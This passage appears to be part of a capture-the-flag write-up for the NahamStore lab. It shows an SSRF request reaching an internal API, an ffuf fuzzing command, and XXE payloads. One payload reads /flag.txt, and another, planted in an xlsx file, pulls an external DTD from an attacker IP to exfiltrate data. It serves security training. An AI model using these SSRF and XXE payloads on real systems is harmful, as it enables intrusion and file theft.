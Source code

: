 ```
POST /stockcheck HTTP/1.1
Host: nahamstore.thm

product_id=2&server=stock.nahamstore.thm@internal-api.nahamstore.thm/orders/5ae19241b4b55a360e677fdd9084c21c#
```


<br><br><br>


#### XXE

* There was a GET request like the following:

```
http://stock.nahamstore.thm/product/2
```

* Change the request to a POST, and the application reveals an error message "["Missing header X-Token"]".

* Fuzz for parameters/directories:

```
ffuf -u "http://stock.nahamstore.thm/product/2?FUZZ" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt -fs 42
```

* XXE payload:

```
POST /product/2?xml
```

```
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]><root>
<X-Token>test123&xxe;</X-Token>
</root>
```


<br>


* This endpoint has a functionality vulnerable to XXE:

* http://nahamstore.thm/staff

* Use a .xlsx file and move it into an isolated folder

* Then use the following commands:

```
unzip file.xlsx
```

* Open the "workbook.xml" file and include the following code in the file: (Change IP)

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT cdl ANY ><!ENTITY % asd SYSTEM "http://10.6.44.219/malicious.dtd">%asd;%c;]>
<cdl>&rrr;</cdl>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships">
``` 
